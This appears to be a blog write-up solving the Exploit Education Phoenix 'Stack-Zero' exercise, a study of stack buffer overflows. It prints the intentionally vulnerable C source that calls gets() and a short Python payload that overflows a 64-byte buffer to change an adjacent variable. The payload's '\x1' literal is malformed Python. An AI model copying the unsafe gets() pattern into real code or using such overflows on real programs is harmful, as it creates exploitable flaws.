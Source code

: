 ```yaml
---
title: Exploit Education > Phoenix > Stack-Zero
date: '2021-09-20'
draft: false
--- 
```


Stack-Zero consists of the following source code:

```c
/*
 * phoenix/stack-zero, by https://exploit.education
 *
 * The aim is to change the contents of the changeme variable.
 *
 * Scientists have recently discovered a previously unknown species of
 * kangaroos, approximately in the middle of Western Australia. These
 * kangaroos are remarkable, as their insanely powerful hind legs give them
 * the ability to jump higher than a one story house (which is approximately
 * 15 feet, or 4.5 metres), simply because houses can't can't jump.
 */

#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

int main(int argc, char **argv) {
  struct {
    char buffer[64];
    volatile int changeme;
  } locals;

  printf("%s\n", BANNER);

  locals.changeme = 0;
  gets(locals.buffer);

  if (locals.changeme != 0) {
    puts("Well done, the 'changeme' variable has been changed!");
  } else {
    puts(
        "Uh oh, 'changeme' has not yet been changed. Would you like to try "
        "again?");
  }

  exit(0);
}
````

Looking at the file, we can see that the code uses the vulnerable `gets` function. It copies all input from STDIN to the buffer without checking the input's size first. If we provide a string that is larger in the number of characters than the size of the allocated buffer, we can overwrite values in memory that come after it. 

Since `buffer` is of type `char[64]`, we can write 64 chars into stdin to 'pad' the input. After padding, we can then overwrite whatever comes after `buffer`, in this case `changeme`. Since writing and counting out 64 characters is a bit troublesome in `qemu`, we write a quick python file that does what we want.

``` 
# stack-zero.py

padding = '0' * 64
changeme = '\x1'

print(padding + changeme)
```

Now, since `stack-zero.c` wants its input via stdin and not as a command line argument, we pipe the input into it: `python3 stack-zero.py | ./stack-zero`. Doing this prints the message

```
> Well done, the 'changeme' variable has been changed!
```

meaning that we solved our first task!

